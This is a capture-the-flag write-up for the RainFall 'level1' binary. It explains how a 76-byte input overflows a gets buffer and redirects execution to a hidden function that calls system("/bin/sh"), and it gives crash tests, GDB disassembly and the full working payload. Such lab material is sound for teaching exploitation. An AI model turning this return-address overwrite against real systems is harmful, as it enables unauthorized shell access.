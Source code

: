 `gets` is being called and gets can be exploit via buffer overflow.

The program will crash with a big string.

By tring varius lenght if found :

```
level1@RainFall:~$ python -c "print('a' * 75)" | ./level1
level1@RainFall:~$ python -c "print('a' * 76)" | ./level1
Illegal instruction (core dumped)
level1@RainFall:~$ python -c "print('a' * 77)" | ./level1
Segmentation fault (core dumped)
```

Illegal instruction is the proof there's an overflow, so we will attack with a buffer overflow of 76.

Knowing why it's 76 can be good, it guess the buffer is 64 bytes long (char buffer[64]) and it took 12 more bytes to reach the return adresse of gets

GDB dissas
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave  
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
(gdb) x/s 0x8048570
0x8048570:       "Good... Wait what?\n"
```

run is a function but is not called, no big deal we got everything !

"/bin/sh" will be called with system, that's exactly what we want and the address that starts this is **0x08048444**.

so by overflowing the buffer and calling the right address like this (adress is reversed because it's like this cpu reads adresses)

https://owasp.org/www-community/attacks/Buffer_overflow_attack

`python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1`

We did get the message "Good... Wait what?\n" but also got segfault right after. So we need to block the command

`(python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1`

`cat` will block the le shell `system` just gave us, in parenthesis so the pipe is for all the command